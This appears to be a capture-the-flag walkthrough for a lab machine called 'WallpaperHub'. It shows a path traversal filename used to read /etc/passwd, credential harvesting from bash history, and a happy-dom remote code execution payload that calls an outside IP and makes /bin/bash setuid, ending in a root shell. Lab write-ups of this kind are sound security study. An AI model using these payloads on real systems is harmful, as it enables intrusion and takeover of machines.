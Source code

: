 # WallpaperHub - Walkthrough

## 🧗 Initial Foothold

### 🌐 1. Web Exploitation on Port 5000
- Found a webpage running on port `5000` with a file upload feature.
- Captured an upload request and exploited **path traversal** by modifying the filename to:
  ```
  ../../../../../../etc/passwd
  ```
- Instead of uploading an image, it **fetched system files** to the “My Uploads” page.

### 📥 2. Harvest User Data
- Downloaded `.bash_history` of user `wp_hub`.
- Found an SQLite command history:
  ```bash
  .tables
  .read users
  ```
- Reused the commands to extract credentials.

### 🔐 3. User Access
- SSH into the box using the `wp_hub` credentials found.
- Ran:
  ```bash
  sudo -l
  ```

---

## ⚙️ Privilege Escalation

### 🔍 1. Inspect Sudo Rights
```bash
(root) NOPASSWD: /usr/bin/web-scraper /root/web_src_downloaded/*.html
```

- Checked the binary:
  ```bash
  ls -la /usr/bin/web-scraper
  ```
  → It’s a symlink to `/opt/scraper/scraper.js`

### 🕵️ 2. Analyze JavaScript Code
- Found it uses `happy-dom`, a known vulnerable library.
- Discovered:
  - **[CVE-2024-51757](https://security.snyk.io/vuln/SNYK-JS-HAPPYDOM-8350065)**
  - Allows **remote code execution** via injected scripts.

---

### ⚔️ 3. Exploit the RCE via HTML Injection

#### Create exploit script:
`/tmp/sh.sh`:
```bash
#!/bin/bash
chmod 6777 /bin/bash
```
Make it executable:
```bash
chmod 777 /tmp/sh.sh
```

#### Create malicious HTML:
`/tmp/test.html`:
```html
<script src="https://192.168.45.194:80/'+require('child_process').execSync('/tmp/sh.sh')+'"></script>
```

#### Trigger the exploit:
```bash
sudo -u root /usr/bin/web-scraper /root/web_src_downloaded/../../../../../../../../../tmp/test.html
```

### 🧨 4. Get Root Shell
- Confirmed `bash` was setuid:
  ```bash
  ls -la /bin/bash
  ```
- Spawned root shell:
  ```bash
  /bin/bash -p
  ```

---

## 🧠 Notes

- Foothold was gained using classic **path traversal** abuse in file uploads.
- Privilege escalation used a **JavaScript-based RCE** in a Node.js tool run as root.
- Clean chaining of recon, user history, and sudo misconfiguration.
